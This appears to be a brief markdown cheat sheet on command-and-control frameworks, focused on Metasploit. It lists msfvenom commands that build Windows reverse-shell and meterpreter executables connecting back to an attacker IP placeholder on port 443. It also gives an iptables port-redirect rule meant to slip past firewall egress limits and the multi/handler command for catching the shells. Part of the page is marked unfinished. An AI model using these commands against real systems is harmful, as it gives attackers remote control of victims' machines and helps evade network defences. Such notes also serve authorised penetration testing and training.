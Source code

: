 # C2 Frameworks

## 01 - Metasploit

### 1.1 - MSFVenom

```
$ msfvenom -p windows/meterpreter/reverse_tcp_allports lhost=<IP> lport=443 -f exe > rev.exe

$ msfvenom -p windows/shell/reverse_tcp_allports lhost=<IP> lport=443 -f exe > rev.exe

$ sudo iptables -A PREROUTING -t nat -p tcp --dport 443:5556 -j REDIRECT --to-port 443
```

### 1.2 - Shell Handler

TODO: Fill this info

```
msf > use exploit/multi/handler
```

---
## References

### Hacking Articles

- [Hacking Articles: Bypass Firewall Restrictions Metasploit `reverse_tcp_allports`](https://www.hackingarticles.in/bypass-firewall-restrictions-metasploit-reverse_tcp_allports/)